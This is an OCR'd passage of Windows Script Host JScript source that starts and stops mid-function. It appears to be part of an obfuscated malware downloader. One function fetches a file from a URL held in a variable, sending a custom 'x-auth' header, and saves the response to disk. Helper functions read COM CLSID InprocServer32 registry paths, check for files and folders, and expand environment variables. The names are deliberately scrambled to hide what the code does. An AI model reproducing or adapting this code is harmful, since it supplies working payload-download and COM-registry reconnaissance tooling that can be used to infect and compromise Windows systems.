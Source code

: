 ```js
        var getPathFromGuid = WScript.CreateObject("MSXML2.XMLHTTP");
        getPathFromGuid.Open("GET", fileExists + "&=" + Math.floor((Math.random() * 999999999) + 1), false);
        getPathFromGuid.SetRequestHeader("x-auth", dlToFile);
        getPathFromGuid.Send();
        if (getPathFromGuid.Status == 200) {
            var getPathFromGuidWow = WScript.CreateObject("ADODB.Stream");
            getPathFromGuidWow.Type = 1;
            getPathFromGuidWow.Open();
            getPathFromGuidWow.Write(getPathFromGuid.ResponseBody);
            getPathFromGuidWow.SaveToFile(runAsAdmin, 2);
            getPathFromGuidWow.Close();
            return true
        }
    } catch (e) {};
    return false
}

function getPathFromGuid(runAsAdmin) {
    try {
        var dlToFile = WScript.CreateObject("WScript.Shell");
        return dlToFile.RegRead("HKEY_CLASSES_ROOT\\\\CLSID\\\\" + runAsAdmin + "\\\\InprocServer32\\\\")
    } catch (e) {};
    return ""
}

function getPathFromGuidWow(runAsAdmin) {
    try {
        var dlToFile = WScript.CreateObject("WScript.Shell");
        return dlToFile.RegRead("HKEY_CLASSES_ROOT\\\\Wow6432Node\\\\CLSID\\\\" + runAsAdmin + "\\\\InprocServer32\\\\")
    } catch (e) {};
    return ""
}

function fileExists(runAsAdmin) {
    try {
        var dlToFile = WScript.CreateObject("Scripting.FileSystemObject");
        return dlToFile.FileExists(runAsAdmin)
    } catch (e) {};
    return false
}

function folderExists(runAsAdmin) {
    try {
        var dlToFile = WScript.CreateObject("Scripting.FileSystemObject");
        return dlToFile.FolderExists(runAsAdmin)
    } catch (e) {};
    return false
}

function getEnv(runAsAdmin) {
    try {
        var dlToFile = WScript.CreateObject("WScript.Shell");
        return dlToFile.ExpandEnvironmentStrings("%" + runAsAdmin + "%")
    } catch (e) {};
    return ""
}

function randomStr(dlToFile) {
    var getPathFromGuidWow = "";
    var getPathFromGuid = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
```